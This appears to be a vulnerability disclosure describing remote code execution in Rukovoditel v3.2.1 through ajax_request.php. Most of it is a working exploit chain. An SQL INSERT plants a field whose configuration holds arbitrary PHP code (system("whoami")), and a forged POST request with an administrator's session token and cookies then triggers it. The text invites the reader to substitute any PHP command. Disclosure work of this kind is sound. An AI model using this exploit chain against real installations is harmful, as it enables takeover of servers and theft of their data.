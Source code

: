# Rukovoditel v3.2.1 has Remote Code Execution in ajax_request.php

Author: y1s3m0

vendors: 

- https://www.rukovoditel.net/

- https://sourceforge.net/projects/rukovoditel/files/latest/download

## Payload

database:rukovoditel

In the latest version of Rukovoditel, there is a remote command execution vulnerability that can be exploited simply by combining it with an SQL injection vulnerability. By executing the following command in the database, you can store the command you need. You just need to focus on "id", "type", and "configuration", and make sure that type="fieldtype_ajax_request" and configuration are the PHP command you want to execute.

```sql
INSERT INTO `rukovoditel`.`app_fields`(`id`, `entities_id`, `forms_tabs_id`, `comments_forms_tabs_id`, `forms_rows_position`, `type`, `name`, `short_name`, `is_heading`, `tooltip`, `tooltip_display_as`, `tooltip_in_item_page`, `tooltip_item_page`, `notes`, `is_required`, `required_message`, `configuration`, `sort_order`, `listing_status`, `listing_sort_order`, `comments_status`, `comments_sort_order`) VALUES (999, 23, 28, 0, '', 'fieldtype_ajax_request', 'Subject', '', 1, '', '', 0, '', '', 1, '', '{\"php_code\":\"system(\\"whoami\\")\"}', 3, 1, 3, 0, 0);
```

Then, by obtaining the administrator's "form_session_token" and cookie, you can construct a payload similar to the one below and execute the command stored in the database. Make sure that field_id is the injected id above.

```sql
POST /index.php?module=dashboard/ajax_request&field_id=999 HTTP/1.1
Host: rukovoditel:8082
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-CN;q=0.9,ja;q=0.8,vi;q=0.7
Content-Length: 35
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: cookie_test=please_accept_for_session; sid=ecvuqrogd8e5v7jvlqr2mvhj5c; app_remember_me=1; app_stay_logged=1; app_remember_user=YWRtaW4%3D; app_remember_pass=JFAkRTRVRnlFMHhGQzYxMlFqWE5KUHJxLzJHck9oUGVTMA%3D%3D; XDEBUG_SESSION=XDEBUG_ECLIPSE
DNT: 1
Origin: http://rukovoditel:8082
Referer: http://rukovoditel:8082/index.php?module=custom_php/code
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest

form_session_token=ih7agGdyZZ
```

![](rce_ajax_request.png)
